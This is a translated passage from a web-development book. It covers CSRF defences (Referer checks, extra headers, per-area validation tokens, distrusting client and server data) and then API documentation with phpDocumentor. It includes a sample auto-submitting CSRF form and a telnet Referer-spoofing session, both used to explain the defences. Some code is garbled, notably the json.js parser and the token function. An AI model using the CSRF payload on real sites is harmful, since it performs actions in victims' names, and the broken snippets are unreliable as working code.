跨站请求伪造通过用户的浏览器模拟来自另一个位置的 GET 或 POST 请求，以执行查看漏洞利用的用户的操作。漏洞利用可以采取向论坛发布图片的形式，其 `src` 属性设置为 "http://example.org/manage_user.php?id=1&amp;action=delete"，如果拥有删除用户 1 权限的用户在互联网上的任何地方访问包含该图片的任何页面，这将删除 ID 为 1 的用户（假设该 URL 存在）。大多数 CSRF 攻击针对知名网站，因为这些网站的用户更有可能触发请求来执行给定操作。

防御 CSRF 攻击有几种相关形式，每种形式的有效程度大致与所需努力成反比，所有这些形式都基于在客户端和服务器之间发送的额外数据以加强用户身份验证。所有这些预防措施都能抵御最常见的 CSRF 攻击，即以图片或 JavaScript 形式代表偶然遇到它们的任何用户发起 GET 或 POST 请求：

```html
<!--
This attack works on the knowledge that a GET request has the ability to cause side effects, in this case, deleting the user with an ID of 1
-->


<!-- While this attacker uses a simple script to submit a POST request using the viewer's identity -->
<script type="text/javascript">
document.write('<form id="zxcvb" method="post" action="http://example.org/users.php"><input type="hidden" name="user" value="General Ripper" /><input type="hidden" name="authority" value="president" /></form>');
document.getElementById('zxcvb').submit();
</script>
```


### 8.4.1 检查Referer

CSRF确实带来了更大的防护挑战，因为请求的一切看起来都是有效的。会话ID匹配，数据中没有像XSS攻击所需那样的错误格式值，而且它可能看起来完全像是用户通过Web应用程序控件正常交互产生的。检查Referer有一定作用；然而，由于请求头基本上是客户端自主传递的，将Referer头设置为非真实值几乎不费吹灰之力。不过，这至少能阻止新手攻击。

在PHP中，Apache特定函数提供了一种极其简便的检查Referer的方式，可以通过`apache_request_headers()`库函数和`$_SERVER["HTTP_REFERER"]`全局变量实现，后者直接保存Referer请求头的值。当PHP作为Apache模块安装时，调用`apache_request_headers()`会返回一个关联数组，其中所有请求头名称作为数组键，对应的请求头值作为数组值。调用`var_dump(apache_request_headers())`会显示类似以下的内容，其中"Referer"是数组中的最后一个条目：

```
array(9) {
  ["Host"]=>
  string(13) "192.168.2.106"
  ["User-Agent"]=>
  string(92) "Mozilla/5.0 (Macintosh; U; Intel Mac OS X; en-US; rv:1.8.1.3) Gecko/20070309 Firefox/2.0.0.3"
  ["Accept"]=>
  string(99) "text/xml,application/xml,application/xhtml+xml,text/html;q=0.9,text/plain;q=0.8,image/png,*/*;q=0.5"
  ["Accept-Language"]=>
  string(23) "en-us,en;q=0.7,fr;q=0.3"
  ["Accept-Encoding"]=>
  string(12) "gzip,deflate"
  ["Accept-Charset"]=>
  string(7) "UTF-8,*"
  ["Keep-Alive"]=>
  string(3) "300"
  ["Connection"]=>
  string(10) "keep-alive"
  ["Referer"]=>
  string(31) "http://192.168.2.106/utilities/"
}
```

然而，以下示例表明，一个简单的telnet连接就可以将头设置为任意值，服务器会简单地相信它，因为它缺乏任何验证机制：

```
$ telnet 192.168.2.106 80
Trying 192.168.2.106...
Connected to 192.168.2.106.
Escape character is '^]'.
GET /utilities/apache_request_headers.php HTTP/1.1
Host: 192.168.2.106
Referer: The Forbidden Zone

HTTP/1.1 200 OK
Date: Thu, 22 Mar 2007 02:08:01 GMT
Server: Apache/2.2.3 (Unix) PHP/5.2.1
X-Powered-By: PHP/5.2.1
Content-Length: 117
Content-Type: text/html

array(2) {
  ["Host"]=>
  string(13) "192.168.2.106"
  ["Referer"]=>
  string(18) "The Forbidden Zone"
}
```

此示例展示了在服务器192.168.2.106的80端口上打开一个telnet会话，并使用HTTP 1.1协议（www.w3.org/Protocols/rfc2616/rfc2616.html）手动请求资源/utilities/apache_request_headers.php的过程。然后，它展示了将请求的主机名设置为192.168.2.106，并将Referer头设置为"The Forbidden Zone"，而不是省略它（因为此请求是直接访问资源）。在两次按下回车键后返回的响应显示，`apache_request_headers()`的`var_dump()`输出与客户端（在本例中为telnet）提交的内容完全一致，没有任何过滤或验证。

> 为了在将实际域名指向服务器之前测试Apache中的虚拟主机名，你可以使用telnet将Host头设置为每个主机，以模拟对该特定主机的浏览器请求。事实上，在测试任何监听端口的应用程序时，telnet都提供了一种即时检查服务器是否响应的方法，对于发送和接收纯文本（如HTTP）的情况，它允许你轻松快速地发起请求并验证响应。

### 8.4.2 提交附加头

一种稍好的CSRF防护措施是在应用程序向服务器发送Ajax调用时，提交一个包含用户会话ID的附加头。这样，任何旨在发送给浏览器的XML或JSON响应都可以在向输出呈现任何内容之前，检查确认这个冗余头是否存在，而无需向特定组件添加代码。下面的`AjaxRequest.prototype.send()`方法可以自动发送这个辅助头：

```
// 简单的别名，指向this.xhr.send，根据指定的请求方法
// 调整this.post。
AjaxRequest.prototype.send = function() {
    if (this.aborted) {
        return false;
    }
    var real_post = '';
    var event = new AjaxEvent(this);
    if (this.method == 'POST') {
        this.xhr.setRequestHeader(
            'Content-Type',
            'application/x-www-form-urlencoded'
        );
        // 添加cookie作为另一个请求头以防止CSRF
        this.xhr.setRequestHeader(
            'X-Cookie',
            document.cookie.split(';')[0].split('=')[1]
        );
        real_post = this.urlEncodeObject(this.post);
        event.returned = this.xhr.send(real_post);
    } else {
        event.returned = this.xhr.send("");
    }
    this.dispatchEvent('send', event);
    return event.returned;
}
```

在xml.php Ajax处理器中进行相应的PHP检查也同样简单：

```
// 如果头不存在或与存储的用户会话ID不匹配，
// 则拒绝访问，可能是CSRF攻击尝试。
if (!isset($_SERVER['X-Cookie']) ||
    $_SERVER['X-Cookie'] != $user->sessionid) {
    header('HTTP/1.1 401 Unauthorized');
    exit();
}
```

虽然这种技术确实可以阻止使用图像src甚至JavaScript表单提交的随意攻击，但它就像是汽车要求司机在启动前摇下车窗一样（即使钥匙已经插入点火开关）。换句话说，它需要一个简单的第二步来阻止攻击者，而攻击者可以轻松学会并执行这一步。它也未能阻止使用与静态表单通过全页面加载提交相同请求的CSRF攻击。

### 8.4.3 二次随机令牌

二次令牌的概念仍然有其价值，但为了使其更难以预测，并使请求更难伪造，来自合法用户的请求应包含一个完全新的令牌，该令牌由服务器针对具体操作传递。该令牌不应在每个请求中保持不变，因为攻击者可以通过流量嗅探或任何其他方式获取到该令牌与主会话令牌后，直接重用它。然而，由于XMLHttpRequest请求固有的异步行为，令牌可能无法为每个请求都进行更改。

为了绕过这个障碍，令牌可以在特定的页面视图或主要的界面变化时被重用。换句话说，在应用程序中只有单个请求可能被发起的情况下，这个令牌可以更改，并让服务器和客户端同时更新其信息。这种更改越频繁（只要它是随机生成的，而不是攻击者可能通过程序匹配的东西），攻击者通过CSRF及时窃取并使用令牌就越困难。

使用这种方法时，采用类似MVC的架构可以大大减轻每个View的负担，并在其处理过程中生成令牌。每个表单都需要包含一个正确处理了令牌的隐藏输入元素，但这可以使JavaScript从表单中提取信息时更容易地添加令牌，而无需修改脚本本身。

应用程序`CentralController`对象中的以下两个方法负责跟踪区域和为每个给定区域生成验证令牌，如在`CentralController::loadController()`方法中调用。第一步确保为应用程序的每个区域生成唯一的令牌，该令牌在用户访问每个区域期间持续有效。然而，每次用户从另一个区域返回时，它会重新生成令牌。它还使用会话ID、系统级盐值和一个伪随机数（只是为了增加安全性），以及区域名，来创建一个相当难以预测的令牌：

```
/**
 * 根据应用程序的当前区域获取令牌，
 * 但前提是用户切换到了不同的区域。
 */
protected function generateValidationToken($area) {
    // 从会话中获取上次查看的区域
    $last_viewed = $this->user->session->get('last_viewed_area');
    // 如果与此区域不同，则重新生成令牌并应用于会话
    if ($area != $last_viewed) {
        $this->validation_token = $this->generateToken($area);
        $this->user->session->set('last_viewed_area', $area);
    }
}
/**
 * 为当前会话生成一个唯一令牌，
 * 使用一个随机数和提供的种子。
 */
public function generateToken($seed) {
    $session = $this->user->session->get('id');
    $random = mt_rand();
```


$salt = $this->getSetting('hash_salt');
return sha1($session . $random . $seed . $salt);
}
```

此令牌随后会传递给应用每个视图的渲染层，以便表单可以使用一个隐藏的输入字段，如下方的标记所示：

```
<form action="?step=2" id="registration">
    <input type="hidden" name="validation_token"
           id="registration.validation_token"
           value="<?php echo escapeMarkup($validation_token); ?>" />
    <div id="messages"></div>
    <label for="username" tabindex="1">
        Username:
        <input id="username" name="username" type="text" />
    </label>
    <label for="password" tabindex="2">
        Password:
        <input id="password" name="password" type="password" />
    </label>
    <label for="password_confirm" tabindex="3">
        Confirm Password:
        <input id="password_confirm" name="password_confirm" type="password" />
    </label>
    <input id="submit" name="submit" type="submit" value="Next Step"
           tabindex="4" />
</form>
```

然后，当JavaScript获取表单信息时，它可以使用表单的ID和常量字符串`validation_token`来获取需要包含在POST数据中的令牌字符串。接着，`CentralController`对象可以对所有的Ajax请求和POST操作检查此令牌。这种方法虽然比其他方法实现起来需要多花一点功夫，但它确实比本文介绍的其他方法能提供更好的CSRF攻击防护。

> 这项技术的一个积极副作用是，意外的双重点击链接和提交按钮不再会触发重复操作。每个表单提交使用唯一的令牌，可以防止相同的请求重复执行操作，例如创建两条新记录。

所有描述的技术都可以与其他任何技术结合使用，这使得从快速方法开始，并在时间允许的情况下逐步引入更强的措施变得更容易，除非安全是更高的优先级。在这种情况下，反向操作可能更有意义：从最强的措施开始实施，然后再实现其他措施以完善防护。

## 8.5 不要信任用户

实际上，“不要信任用户”实际上意味着“不要信任客户端中的任何东西”，尽管对用户的不信任确实是其中的一部分。像XSS和CSRF这样的攻击利用用户的身份执行操作，扭曲了用户的概念，将其扩展为用户通过提供的用户界面或通过编程调用所能做的一切事情。

为了推行这一点，Web应用程序可以采取只授权用户访问其绝对需要的数据和方法的立场。对服务器信息页面（如`phpinfo()`的输出或Web访问日志分析器的使用统计）的访问，如果这些信息确实存在于主应用程序中，应仅限于Web应用程序管理员。垃圾邮件发送者和病毒编写者尤其会滥用访问日志，将Referer头设置为恶意值，意图利用XSS以查看数据的用户身份执行操作。

授权检查必须成为应用程序不可分割的一部分，存在于每个负责的组件中。例如，应用程序的模型层可以最可靠地执行数据CRUD（创建、检索、更新、删除）授权检查，因为它不需要知道请求来自应用程序的哪个部分。它只是基于当前用户的上下文检查权限。

同样，应用程序的应用层最能应用影响渲染输出以及与该输出交互的权限。这会影响页面的限制性渲染，以便用户只能看到他们需要看到和使用的界面方面。它还过滤从用户输入的数据，使其符合预期的数据类型和可用的选择。

拥有一个集中的错误处理和消息对象可以简化此过程，因为应用程序的任何部分都可以抛出权限被拒绝异常，并由该对象适当地处理，同时通知用户并记录信息。集中处理还意味着执行这些检查和报告无需在整个应用程序中多次重写相同的逻辑。

这些在客户端进行的授权检查、数据验证和过滤，其存在只是为了优化用户体验，并使他或她无需在界面的每个步骤都等待大量的服务器端检查。此类检查很容易被绕过，并且必须有相应的服务器端检查来保证应用程序的安全。

## 266  第8章  保持Web应用程序安全

特别是在JavaScript密集的Ajax Web应用程序中，开发人员倾向于将那些未立即暴露给用户的JavaScript功能视为坚不可摧的黑匣子。这为攻击者打开了应用程序的大门，使他们能够使用预先编写的脚本直接操作对象；他们甚至可以打开JavaScript调试器并在执行过程中更改值和调用。只需稍微检查一下对象，就能意识到它使用什么作为主键，以及可能存在的其他用户不应有权加载（更不用说更改）的键。不恰当的授权检查可能导致数据在未检查直接加载或更改数据的情况下被隐藏在用户的视野之外。

这个问题的另一面是，允许用户在用户界面中看到所有内容，同时禁止更改数据，虽然可以防止直接更改数据，但同时也可能为攻击者提供所有必要的信息，以创建针对有权进行更改的用户的CSRF攻击。虽然通过隐藏标识符和功能而获得的模糊性安全并不能提供非常安全的保护方法，但当客户端的预防措施与本章前面描述的CSRF预防技术相结合时，它确实为攻击者增加了一个需要克服的障碍。

拥有并抱着对用户的不信任进行编码，并不意味着界面对用户应表现出*敌意*；相反，它意味着界面应为用户提供简单、易用的方式来访问与该用户相关的控件和信息，且仅此而已。授权错误不得泄露用户无权访问的记录信息，但应保持清晰和信息充分，以便用户理解他们最初为何收到该错误。错误并不能保证仅在用户应得时才会抛出。用户收到错误可能是由于管理失误的结果，即使他们也可能因恶意攻击失败而收到错误。

## 8.6  不要信任服务器

与不信任整个客户端类似，不信任服务器实际上意味着不信任从服务器检索到的任何数据，也不信任服务器上的其他用户。显然，保护服务器和网络具有很高的优先级，因为服务器通常托管着其他应用程序和其他可能包含更敏感信息的数据库；此外，服务器可能位于防火墙后面，与许多其他否则会暴露于攻击的服务器在一起。这通常不在Web应用程序开发人员的职责范围内，而且服务器本身也可能完全不受公司或开发人员的控制。

此外，更关键的是，无论服务器攻击的可能性有多小，客户端和用户都期望Web应用程序具有一定的安全性。因为数据库可以包含完全有效但加载到浏览器中时可能对Web应用程序造成危害或执行漏洞利用的数据，所以这个论点无论如何都不成立。

一个像缺陷跟踪应用程序这样常见且简单的Web应用程序，就很好地说明了为什么应用程序不应信任服务器，因为存储在数据库中的缺陷描述可能包含漏洞利用描述和示例，以便开发人员能够正确复现场景以进行修复。这些描述可能包含从SQL注入到CSRF的任何内容。这种潜在数据范围极好地说明了为什么为每种上下文转义输出变得至关重要，因为应用程序无法过滤描述并移除或损坏重要信息。

> 一些浏览器过去和现在都存在漏洞，这些漏洞源于它们渲染标记的方式，会导致浏览器卡死、崩溃，甚至触发蓝屏死机。

这一要求随后确保从数据库返回的相对大量的数据中的特殊字符和控制字符得以保留，这些字符在描述预览、XML源中显示以及在可编辑表单元素中渲染时会被截断。通过在渲染点使用特定于输出上下文的方法完全转义输出，服务器端代码可以将信息传递给用户，而无需盲目地相信数据库已经进行了适当的转义。

在客户端代码中使用来自服务器的数据时，同样的策略也会有所帮助。JavaScript能够像PHP处理数据库结果时一样，验证服务器响应中的数据格式和内容。实际上，JavaScript 1.3（于1990年代末期引入并支持）及更高版本支持Unicode，这使得验证和处理可能包含ISO-8859-1字符集之外字符的字符串变得容易得多，而PHP要到版本6才支持Unicode，目前仅通过CVS和快照提供。

使用JSON似乎与不信任服务器相矛盾，因为返回的文本遵循JavaScript语法，并在通过`<script>`标签或`eval()`调用引用时会执行。为了保护脚本无需对每个响应进行适当的过滤就进行`eval`，JSON.org提供了一个公共域的脚本（www.json.org/json.js），供用户自由使用、修改和分发。脚本中的一个代码片段（如下所示）为String对象添加了一个方法，该方法在检查语法后解析JSON语法

通过正则表达式进行，并且可以选择调用任何自定义的过滤函数，以移除对象中不必要的元素：

```javascript
(function (s) {
    // 扩展 String.prototype。我们在一个立即执行的匿名函数中完成此操作，
    // 以避免定义全局变量。
    s.parseJSON = function (filter) {
        // 解析分为三个阶段。第一阶段，我们对文本运行正则表达式，
        // 查找非 JSON 字符。我们特别关注 '()' 和 'new'，
        // 因为它们可能导致函数调用；还有 '='，因为它可能导致修改。
        // 但为了安全起见，我们将拒绝所有意外字符。
        try {
            if (/^("(\\.|[^"\\\n\r])*"|[,:{}\s\-+.A-Za-z0-9\r\n\t])+?$/.
                    test(this)) {
                // 第二阶段，我们使用 eval 函数将文本编译为 JavaScript 结构。
                // JavaScript 中的 '{' 运算符存在语法歧义：它可能开始一个代码块，
                // 也可能是一个对象字面量。我们将文本用圆括号括起来以消除歧义。
                var j = eval('(' + this + ')');
                // 在可选的第三阶段，我们递归地遍历新结构，
                // 将每个名称/值对传递给过滤函数，以进行可能的转换。
                if (typeof filter === 'function') {
                    function walk(k, v) {
                        if (v && typeof v === 'object') {
                            for (var i in v) {
                                if (v.hasOwnProperty(i)) {
                                    v[i] = walk(i, v[i]);
                                }
                            }
                        }
                        return filter(k, v);
                    }
                    j = walk('', j);
                }
                return j;
            }
        } catch (e) {
            // 如果正则表达式测试失败，则直接忽略错误。
        }
    }
}
})(String);
throw new SyntaxError("parseJSON");
};
})(String.prototype);
```

每种与外部实体（无论是用户还是服务器）交互的方法，都有明确的方法来过滤和转义相关数据，从而全面保护 Web 应用程序免受恶意攻击。有时这些工具需要应用程序自身的开发人员编写，但大多数工具应该在语言本身、一个库或公开可用的代码仓库中成为标准，以便有大量其他开发人员有机会审查和改进代码，从而提供尽可能最好的保护。

# 第 9 章


## 本章内容

- 9.1 是的，你需要编写文档 272
- 9.2 API 文档 275
- 9.3 内部开发人员文档 288

在一个由不断变化的产品、快速的应用程序开发以及刚进入该领域或新接触特定语言的开发人员主导的行业中，文档通常在开发计划中缺乏时间，或者根本从未出现过。这种忽视严重阻碍了进一步开发，并且当开发人员不得不一次又一次地口头解释应用程序的某个方面时，也浪费了他们的时间。

不幸的是，许多开发人员将在开发过程中编写文档视为实际编码的障碍，或者他们甚至借口说代码看起来非常易读，不需要提供内联文档。这种心态一直延续到编程指南和风格指南中；当团队规模较小时，他们通常认为编写文档没什么意义。

### 9.1 是的，你需要编写文档

尽管开发人员被动地（甚至有时是积极地）抗拒为代码和应用程序编写文档，但编写代码注释、设计文档、项目时间表以及跟踪应用程序架构，确实能够让生活变得更轻松。文档是在编写功能之前、期间还是之后成为开发过程的一部分并不重要，只要它以某种方式被纳入开发中即可。本章无法涵盖编写文档的所有理由，但会介绍一些最突出的理由。

#### 9.1.1 唤起你自己的记忆

即使你确信其他开发人员永远不会阅读，更不用说修改相关的代码，内联注释、总体描述和示例也能帮助你记起为什么或代码是如何最终变成这样的。一个由 cron 在午夜运行的一次性命令行脚本可能会出故障，或者可能需要在启动前紧急更改。通过编写关于脚本行为、其结构，或者仅仅是描述脚本每个部分的一系列注释，在已经漫长的一天结束后进行紧急更改似乎风险小了很多。

以下 `Utilities` PHP 类的静态方法对该方法进行了总体描述，但方法本身也包含两条注释：

```php
/**
 * 如果 $value 的大小与预期的 $size 匹配，则返回 true；
 * 否则，抛出 DataSizeException
 */
public static function assertDataSize($size, $value) {
    $matched = false;
    $datasize = 0;
    if (is_string($value)) {
        // 这需要随着 PHP6 对 Unicode 的支持而更改
        $matched = ($datasize = strlen($value)) <= $size;
    } else if (is_numeric($value)) {
        $matched = ($datasize = $value) <= $size;
    } else {
        // 此方法当前不处理非标量值
        throw new InvalidArgumentException(
            'Datatype of string or numeric'
            . ' expected for argument two, '
            . gettype($value) . ' given.'
        );
    }
    if (!$matched) {
        throw new DataSizeException(
            'Maximum data size of ' . $size
            . ' expected, ' . $datasize . ' given.',
            $size,
            $datasize
        );
    } else {
        return true;
    }
}
```

第一条内联注释指出需要在 PHP6 中进行更改，因为该语言届时将支持 Unicode，并且传递给 `strlen()` 的多字节字符串将不再返回其字节长度。此方法需要在可用时使用不同的库函数。

第二条注释仅仅提醒开发人员，如果传递给 `assertDataSize()` 的 `$value` 未能通过 `is_string()` 和 `is_numeric()` 测试，那么此方法不处理传递值的数据类型。相反，它会抛出一个 `InvalidArgumentException`，这是 PHP5 中包含的 `Exception` 子类之一。该注释暗示该方法可能支持更多值，并且当开发人员检查代码以了解为什么抛出该异常时，可能会解答他们的疑问。

#### 9.1.2 降低学习曲线

无论开发人员多么熟练，都需要时间和精力才能足够深入地理解一个应用程序，以便安全地开始在其中编码。这段培训时间通常也需要至少一名其他相关人员的投入，以确保新开发人员理解项目时间表的方法、推理和视角。

持续增加开发人员文档可以使学习曲线最小化，而不是让开发人员团队通过经验来了解一对一口头培训可能花费多少时间。这使得原始开发人员能够自由地转到更令人兴奋的项目，而其他人则可以轻松地接手维护和支持周期。这对于长期项目也很有帮助，多年后仍然可以清楚地看到团队为何做出某个决定，或者架构是在过程中哪个阶段发生变化的。

由于开发人员即使在开始处理应用程序时也无法完全理解其整个代码库，因此文档还提供了他们可以根据需要参考的材料。内部开发人员文档，包括全面的 API 文档，提供了新开发人员开始编码所需的所有信息，而无需让其他开发人员不断进行一对一的培训。

这种开发人员文档可以包含使用示例，并为迄今为止的实现添加上下文，以便新开发人员也能理解如何使用当前的代码库以及它如何达到当前状态。时间表和总体讨论可以让开发人员清楚地了解项目从现在开始将如何发展，以及原因。这使他们能够在更早的阶段更积极、更有效地参与未来功能的规划。

#### 9.1.3 注意“公交车因素”

团队中往往有不同的开发人员负责应用程序的不同方面，每个人对他或她自己的部分比其他部分理解得更透彻。虽然这可以加快错误报告的处理速度和实现的一致性，但它也造成了几个

单点故障问题。例如，如果唯一完全理解服务器端 Ajax 响应架构的开发者意外离职（可能是由于猎头挖角、个人原因，或者如俗话所说，遭遇意外），其他开发者或临时增补的团队成员需要接手遗留的工作。

> 培养团队中的其他开发者，使他们能够为彼此的专业领域做出贡献，这能增加每位开发者的价值。这与一些关于“将单点故障作为职位保障”的（通常是戏谑的）评论相反。每位开发者知道的越多，继任者要胜任同一职位所需的培训就会越全面。

全面的开发者文档可以防患于未然，同时也允许开发者在其负责领域之外的应用程序中进行微小甚至有时效性的更改。一位开发者的休假不一定导致其主要工作的开发或错误修复停滞；这也意味着您休假时无需为紧急情况随身携带工作机器。

### 9.2 API 文档

尽管库函数的实现几乎始终存在不一致性，PHP 仍然是最容易学习的脚本语言之一。这部分源于其尽可能保持函数库文档的完整性，即使对于仍在开发中的功能也是如此。

存在许多自动生成 API 文档的工具，这消除了未能提供文档的任何借口。提供关于方法、变量和类的详尽描述仍需要开发者付出一定努力，但如果他们已经为代码添加了注释，这种努力将变得微乎其微，因为大多数 API 文档工具已经能够解析 C 风格的代码注释以用于文档。

#### 9.2.1 phpDocumentor

phpDocumentor 项目解析注释中的内联文档，其灵感来源于 JavaDoc，但适用于 PHP。它创建各种格式（最常见的是 HTML）的输出，用于呈现交叉引用的 API 文档。它自动检测并表示类层次结构，记录类方法并指定从各种类继承的方法。在完成这些操作的同时，它还会链接到原始父类方法的文档。图 9.1 显示了使用默认模板生成的部分输出。



该工具提供两种生成文档的界面：命令行工具 (`phpdoc`) 和名为 "docBuilder" 的 Web 界面（如图 9.2 所示）。Web 界面以近乎向导的形式很好地介绍了 phpDocumentor 的所有不同选项，提示用户输入要包含或排除的各种目录和文件、输出格式和目标、处理未关联特定包的类的方式等等。

命令行 `phpdoc` 脚本具有与 docBuilder 相同的所有功能，因为它们都使用 phpDocumentor 中相同的 PHP 库来解析源文件并生成最终文档。然而，`phpdoc` 脚本像任何其他命令行脚本一样运行，在不影响其使用速度的情况下为您提供所有强大功能。虽然它提供了与 docBuilder 相同的选项，但本章使用的文档示例均采用默认设置，仅使用 `-d application` 设置源目录，使用 `-t phpdoc_out` 设置输出目标目录：

```
phpdoc -d application -t phpdoc_out
```

（从 Apache 的 DocumentRoot 运行）。



> phpdoc 脚本也可以使用保存的配置文件，通过 `-c [配置文件]` 标志，这不仅使命令行使用更方便，还能将配置本身纳入源代码管理。例如，一个每晚运行的 cron 任务可以更新配置，并在第二天生成更新的 API 文档集。

以下内容显示了与前面命令等效的 ini 文件内容：

```ini
directory=/Library/WebServer/Documents/application
target=/Library/WebServer/Documents/phpdoc_out
```

以下内容显示了添加到用户 cron 文件中的条目，可通过运行 `crontab -e` 进行编辑：

```cron
# 每天凌晨 4:00 更新 API 文档。
0 4 * * * svn update ~/src/utilities/phpdoc.ini; phpdoc -c ~/src/utilities/phpdoc.ini
```

以下代码来自第 5 章“性能优化”，定义了抽象的 `Cache` 类和扩展它的 `memcacheCache` 类。`Cache` 类完全没有内联注释，而 `memcacheCache` 类仅对类本身、其 `$memcache` 对象变量和构造函数有注释：

```php
abstract class Cache {
    abstract public function setCache($key, $value = null, $expires = null);
    abstract public function getCache($key);
    abstract public function deleteCache($key);
}

/**
 * An abstraction class for the memcache extension, which
 * offers much more functionality than exposed here,
 * but this example keeps the object interface generic.
 */
class memcacheCache extends Cache {
    // The abstracted memcache instance
    protected $memcache;

    public function setCache($key, $value = null, $expires = null) {
        return $this->memcache->set($key, $value, null, $expires);
    }

    public function getCache($key) {
        return $this->memcache->get($key);
    }

    public function deleteCache($key) {
        return $this->memcache->delete($key);
    }

    /**
     * This simple implementation defaults to one server: localhost.
     * It could easily pull in configuration information for
     * any number of memcache servers.
     */
    public function __construct() {
        $this->memcache = new Memcache();
        $this->memcache->connect('127.0.0.1', 11211);
    }
}
```

即使这段注释最少的代码也能生成有用的 API 文档，并包含对扩展 `Cache` 类的每个类的交叉引用，如下图 9.3 所示。



phpDocumentor 的解析器支持大量标签以增强文档的可读性，它会将注释的某些部分标记为特定类型。这些标签以“@”为前缀，并根据所使用的标签，导致解析器以不同方式使用注释的内容。

下面的更新示例代码不仅添加了描述方法的注释，还添加了两个基本标签的使用：`@param` 和 `@return`。`@param` 标签使用 `@param datatype $variable Description text` 格式，将随后的元数据和注释与所讨论方法的参数相关联。`@return` 标签使用 `@return datatype Description text` 格式，将随后的元数据和注释与所讨论方法的返回值相关联：

```php
/**
 * The simple, abstract class lays out the requirements for objects used
 * by this application to access caching functionality. Each of the
 * methods described in this section includes a class extending Cache
 * that the application then can use transparently.
 */
abstract class Cache {
    /**
     * Store the given value in cache, identified by the key and
     * optionally expiring at a certain time.
     * @param string $key The identifier for the cached variable
     * @param mixed $value Any non-resource data to store in cache
     * @param int $expires An optional timestamp specifying the time at
     * which the cached value expires. When not given, the value will
     * never expire.
     * @return boolean Success
     */
    abstract public function setCache($key, $value = null, $expires = null);

    /**
     * Retrieves from cache a previously cached value, transparently
     * taking the expiration into account as necessary.
     * @param string $key The identifier for the cached variable
     * @return mixed|false Previously cached data, or false if the cache
     * either does not exist or has expired.
     */
    abstract public function getCache($key);

    /**
     * Deletes from cache a previously cached value
     * @param string $key The identifier for the cached variable
     * @return Boolean Returns a Boolean as to the success of the
     * deletion.
     */
    abstract public function deleteCache($key);
}
```


更新后的 `memcacheCache` 注释仅添加了 `@var` 标签的使用，为 `$memcache` 类变量添加了元数据。除了类的 `__construct` 方法外，其他方法由于没有自己的注释，将直接继承父类 `Cache` 的文档注释：

```
/**
 * An abstraction class for the memcache extension, which
 * offers much more functionality than exposed here,
 * but this example keeps the object interface generic.
 */
class memcacheCache extends Cache {
    /**
     * The abstracted memcache instance
     * @var Memcache $memcache
     */
    protected $memcache;

    public function setCache($key, $value = null, $expires = null) {
        return $this->memcache->set($key, $value, null, $expires);
    }

    public function getCache($key) {
        return $this->memcache->get($key);
    }

    public function deleteCache($key) {
        return $this->memcache->delete($key);
    }

    /**
     * This simple implementation defaults to one server: localhost.
     * It easily could pull in configuration information for
     * any number of memcache servers.
     */
    public function __construct() {
        $this->memcache = new Memcache();
        $this->memcache->connect('127.0.0.1', 11211);
    }
}
```

通过使用这些标签，API 文档现在包含了相关的注释。但更重要的是，它们是在特定上下文中被包含的。`@param` 标签标注的信息现在呈现为专门关于方法参数的信息，`@return` 标签标注的信息现在显示为特定于返回值的注释，同时也作为方法行本身的返回类型，而 `@var` 标签标注的信息则与对象变量相关联（参见图 9.4）。

